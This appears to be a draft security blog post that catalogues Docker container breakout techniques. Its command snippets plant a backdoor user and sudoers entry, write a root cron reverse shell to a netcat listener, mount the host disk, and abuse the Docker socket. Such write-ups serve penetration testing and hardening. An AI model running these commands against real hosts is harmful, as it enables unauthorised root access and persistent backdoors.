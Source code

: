 ```yaml
---
title: "Container Breakouts Techniques"
date: 2020-07-11T13:09:54+02:00
draft: true
---
```


If you are bored of searching for the most-known container breakout techniques, here is a collection. This post addresses abuse of [shared root filesystem](#shared-host-root-directory) (2 ways), [privileged container](#privileged-container) (3 ways) and access to the [Docker Socket](#docker-socket) (1 way). Okay, to be fair – some techniques refer to each other.

## Intro

The motivation of this post is to collect container breakouts. I was considering writing a huge post about all the stuff you must know to break out of container. But, if I would do so, it will take ages to write, es well to read and at the end you would just scroll direct to the PoC code snippets. So I dropped that idea and will just link to additional readings.

It may the case that not all breakouts that you have in mind are listed. Do not hesitate and contact me so that I can add them. Over the time, I may extend them as well.

## Attacks

The attacks refer to each other, cause the root-cause why an attack is possible may differ, but the final break out may be the same. The examples are related to docker. The transfer to other container technologies, e.g., LXC may be slightly different and maybe there will be a follow-up post regarding this ;)

### Shared Host root-directory

If you got access to a container that shares directories with the host, that is not direct a problem. But, if the container has access to the host root-filesystem as user root (pre-assumed that there is no [AppArmor](https://man.cx/apparmor(7)) or [SELinux](https://man7.org/linux/man-pages/man8/selinux.8.html) in place) you got the jack pot! We have multiple ways to approach the underlying host.

Let’s assume that the host root directory is accessible at `/hostfs`

#### SSH to user

To escalate to the host, we **create a user** in the file `/hostfs/etc/passwd` and **add** the user **to** the **sudoer’s**. After the user is prepared, we connect via **SSH** to the host. Okay, it is a kind of flaky, because certain packages must have been installed and services running, you get the idea :)

```
# cat /hostfs/etc/passwd | grep 1000
user:x:1000:1001:user:/home/user:/usr/bin/zsh

# openssl passwd -6 -salt xyz test
$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0

# echo 'foo:$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0:1000:1001:user:/home/user:/usr/bin/zsh' | tee -a /hostfs/etc/passwd

# echo "user ALL=(ALL) NOPASSWD: ALL" >> /hostfs/etc/sudoers.d/0-user

# ip r 
default via 172.17.0.1 dev eth0 
172.17.0.0/16 dev eth0 proto kernel scope link src 172.17.0.2

# ssh -l foo 127.0.0.1
foo@127.0.0.1's password: 
Last login: Sat Jul 11 12:10:10 2020 from 127.0.0.1
arch [~]% sudo -i
[arch ~]# 
```

We have assumed that there is a SSH daemon running on the host, the service is not hardened and the `sudo` package was installed. Well, you could exchange the sudo-step by creating another user with `uid=0(root)` to get rid of that step, but anyway ;)

#### Cronjob

Another approach would be to write a **cronjob** file that is executed every minute and starts a **reverse shell** as user `root`.

```
# ip a
[…]
6: eth0@if7: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
[…]

# echo "* * * * * root bash -i >& /dev/tcp/172.17.0.2/1337 0>&1" | tee /hostfs/etc/cron.d/1revers
# nc -lkvp 1337
nc -lvkp 1337
listening on [any] 1337 ...
172.17.0.1: inverse host lookup failed: Unknown host
connect to [172.17.0.2] from (UNKNOWN) [172.17.0.1] 58536
bash: cannot set terminal process group (3138): Inappropriate ioctl for device
bash: no job control in this shell
[arch ~]# id -a
uid=0(root) gid=0(root) groups=0(root)
```

In this second showcase, we assumed that a cron service was running on the host. That is more or less the default on a lot of systems. 


### Privileged Container
If you start a container with Docker and you add the flag `--privileged` that means to the process in the container can act as root user on the host. The containerization would have the advantage of self-containing software shipment, but **no** real **security boundaries to** the **kernel**.

There are multiple ways to escape from a privileged container. Let us have a start.

#### Capabilities

##### `CAP_SYS_Module` – Load Kernel Module 

https://www.cyberark.com/resources/threat-research-blog/how-i-hacked-play-with-docker-and-remotely-ran-code-on-the-host 

##### `CAP_SYS_ADMIN` – cgroup release on notfy
TODO … have to read :D

#### Host Devices

I prefer to use the host devices to escape from a privileged container. A quick directory listing of the **devices** in the container shows that we have **access to all** of them:

```
root@0462216e684b:~# ls -l /dev/
total 0
crw-r--r-- 1 root root  10, 235 Jul 11 09:20 autofs

[...]
brw-rw---- 1 root  994   8,   0 Jul 11 09:20 sda
brw-rw---- 1 root  994   8,   1 Jul 11 09:20 sda1
[...]
# mkdir /hostfs
# mount /dev/sda1 /hostfs
# ls -l /hostfs/
total 132
lrwxrwxrwx   1 root root     7 Nov 19  2019 bin -> usr/bin
drwxr-xr-x   4 root root  4096 May 13 13:29 boot
[…]
drwxr-xr-x 104 root root 12288 Jul 11 10:09 etc
drwxr-xr-x   4 root root  4096 Jun 30 14:47 home
[…]
drwxr-x---   9 root root  4096 Jul 11 10:09 root
[…]
lrwxrwxrwx   1 root root     7 Nov 19  2019 sbin -> usr/bin
[…]
drwxr-xr-x  10 root root  4096 May 26 14:37 usr
[…]
```

As you can see, the **hard drive** itself is listed, which can be **mounted**. After mounting the device, it is possible to interact as root user with the device and backdoor the system.

Getting access via the hard drive is already described in the previous section [Shared Host root-directory](#shared-host-root-directory).


### Docker Socket

You know, every time you have **access to the Docker Socket** (default location: `/var/run/docker.sock`) it **means** that you are **root on the host**. Some containerized application may need access to the socket, e.g., for observation or local system management.

You have read correctly, local system management. As soon you have access to the socket, you can manage the local system. Okay, first at all, you can manage containers and these containers can afterwards manage the system. 

So if you want to escalate from the container to the system, you can **interact** with the **Docker Socket manually or **just simple **install Docker** in the container. Okay, and what’s the next step? Exactly, you had it already in your mind, start a privileged container. 

```
# apt update && apt install -y docker.io
# docker run --rm --privileged -it nodyd/ana bash
user@b89e2cfbd699:~$
```

With the access to a privileged container, you can **perform** the **steps as already explained** in previous section [Privileged Container](#privileged-container).

## Conclusion

The listed container breakouts are in my humble opinion the most basic one. The list is for sure not complete and as soon as I am in the mood, I might update, extend or re-organize the techniques. Due to the fact that I am only a consumer of already existing research I want to give out a big thanks for sharing the knowledge that I have consumed in the past years from:

- Brad Geesaman – [@bradgeesaman](https://twitter.com/bradgeesaman)
- Chris Le Roy – [@brompwnie](https://github.com/brompwnie)
- Duffie Cooley – [@mauilion](https://twitter.com/mauilion)
- Ian Coldwater – [@IanColdwater](https://twitter.com/IanColdwater)
- Jessie Frazelle – [@jessfraz](https://twitter.com/jessfraz)
- Mark Manning – [@antitree](https://twitter.com/antitree) 
- Matthias Luft – test [@uchi_mata](https://twitter.com/uchi_mata)
- Rory McCune – [@raesene](https://twitter.com/raesene)

To name a few – you are awesome – please continue !!


